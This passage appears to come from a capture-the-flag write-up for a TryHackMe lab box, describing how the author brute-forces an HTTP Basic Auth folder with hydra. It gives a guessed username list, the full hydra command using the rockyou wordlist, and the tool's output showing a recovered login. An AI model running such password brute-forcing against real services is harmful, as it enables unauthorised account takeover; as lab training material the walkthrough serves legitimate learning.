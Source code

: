 The folder shows the usual Basic Auth popup in the browser, which usually means that no further investigation of that folder is possible without a user/pass combo.

The good part about Basic Auth is that it is pretty easy to bruteforce with hydra or similar tools - I prefer hydra.

I could use one of the secList wordlists with usernames and the common passwordlist rockyou, but running through all those combinations would take forever on my slow Kali box. 

Instead I decided to put together a short userlist with the absolutely most likely usernames for a medium-difficulty THM box like this:
```
admin
administrator
dante
inferno
alighieri
root
```
I started hydra with these users in a file users.txt (add -V for more insights into the progress):

```
hydra -L users.txt -P /user/share/wordlists/rockyou.txt inferno.thm http-head /inferno
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-15 03:56:04
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100410793 login tries (l:7/p:14344399), ~6275675 tries per task
[DATA] attacking http-head://inferno.thm:80/inferno
[STATUS] 4912.00 tries/min, 4912 tries in 00:01h, 100405881 to do in 340:41h, 16 active
[80][http-head] host: inferno.thm   login: admin   password: [REDACTED]

```

It turned out that my username guesses and their ordering was fantastic (again this info comes from playing a bunch of THM rooms). If I had to run throug heven this short list of users and all passwords it would likely take 350hours.
With the password and username I could now login via the basic auth popup....just to find a webpage with a login prompt. 